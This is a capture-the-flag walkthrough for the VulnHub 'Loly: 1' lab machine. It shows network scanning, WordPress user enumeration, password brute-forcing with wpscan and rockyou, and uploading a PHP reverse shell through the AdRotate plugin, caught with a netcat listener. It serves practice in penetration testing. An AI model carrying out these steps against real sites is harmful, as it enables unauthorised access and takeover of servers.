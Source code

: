 ![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/bfeaf4da-2536-4bb4-9a13-9810436e2aff)# Loly: 1

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l   
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.135	00:0c:29:0f:25:d7	VMware, Inc.
192.168.127.254	00:50:56:ea:34:a1	VMware, Inc.
```

The ip address is `192.168.127.135`, let's enumerate it

### 2.Enumeration

```bash
root@kali: -sT -sV -sC -p- -oN nmap.out 192.168.127.135
Nmap scan report for 192.168.127.135
Host is up (0.00036s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
MAC Address: 00:0C:29:0F:25:D7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

so we just need to check port 80, using nikto it reveals that the site has wordpress CMS :

```bash
root@kali: nikto -h 192.168.127.135
+ /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ /wordpress/wp-admin/: Uncommon header 'x-redirect-by' found, with contents: WordPress.
+ /wordpress/: Drupal Link header found with value: <http://loly.lc/wordpress/index.php?rest_route=/>; rel="https://api.w.org/". See: https://www.drupal.org/
+ /wordpress/: A Wordpress installation was found.
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wordpress/wp-login.php: Wordpress login found.
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ /wordpress/#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2024-05-06 04:35:09 (GMT-4) (18 seconds)
```

we need to scan the wordpress site using `wpscan` :

```bash
root@kali: wpscan --url http://192.168.127.135/wordpress/ -e u,ap
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f4a42583-023c-4d66-ac55-9243f6b5c983)

yes we found a user, let's brute force this user :

```bash
root@kali: wpscan --url http://192.168.127.135/wordpress/ -e u,ap -U users.txt -P /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1d1936e5-c66d-4d86-8f3b-542c210f700a)


now we have valid credentials, `loly:fernando`, we can login to wodpress site, but when you want to go to `wp-admin.php` it redirects you to `loly.lc`

so add server ip to `/etc/hosts` and login to wordpress.

### 3.Gaining Shell

Since we do not have access to edit theme pages or upload plugin to wordpress, we used already installed plugins to find any vulnerability

one plugin `AdRotate` is installed on the wordpress and it has vulnerability which you can find online like [here](https://github.com/jephk9/oscp-jewels/blob/main/services/wordpress-plugin-exploits.md)

and it says we can upload a php rev shell into banner, so make a revshell.php file and zip it and upload it to wordpress from here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/35ac68ee-692d-4193-902d-c4fc44646215)

and in the setting you can find where this banner goes :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2e58fb7a-da58-4485-bfb7-ebda9db0b606)

so navigate to the address and you will get the shell

```bash
┌root@kali: nc -nvlp 4444                
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.135] 45688
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 04:40:06 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



